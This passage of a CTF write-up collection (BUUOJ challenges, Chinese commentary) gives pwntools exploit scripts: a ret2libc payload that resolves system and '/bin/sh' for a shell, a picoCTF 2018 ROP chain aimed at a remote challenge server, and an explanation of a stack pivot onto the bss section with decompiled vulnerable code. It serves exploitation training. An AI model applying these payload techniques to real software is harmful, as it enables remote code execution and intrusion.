 ```python
libc = LibcSearcher('printf', printf)
base = printf - libc.dump('printf')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = b'crashme\x00'
payload += cyclic(2 + 4*4)
payload += p32(sys)
payload += p32(0xdeadeef)
payload += p32(binsh)

io.sendline(payload)

io.interactive()
```
# buu033-picoctf_2018_rop chain

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29541)
elf = ELF('./pwn')

payload = cyclic(0x18 + 4)
payload += p32(elf.symbols['win_function1'])
payload += p32(elf.symbols['win_function2']) + p32(elf.symbols['flag'])
payload += p32(0xBAAAAAAD) + p32(0xDEADBAAD)

io.sendlineafter(b'Enter your input> ', payload)

io.interactive()
```
# buu034-[Black Watch 入群题]PWN
bss段给了一大块空间，推测考察栈迁移。
```c
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```
最后一个read的溢出只能覆盖返回地址，因此是栈迁移无疑，将栈转移到bss段。
本题要明确leave指令的作用，其相当于'mov esp, ebp; pop ebp'。我们传入的第一个payload在bss段上，作为伪造的栈区备用；第二个payload中，我们修改了ebp处的值为bss段地址，但此时esp仍然在原来的栈上，不过我们可以将返回地址写到'leave'指令，让程序再一次执行leave指令，由于此时ebp已经被修改为bss段地址，因此此时esp就被成功修改。注意后面的pop ebp指令中pop出来的值已经是bss段上的值了。
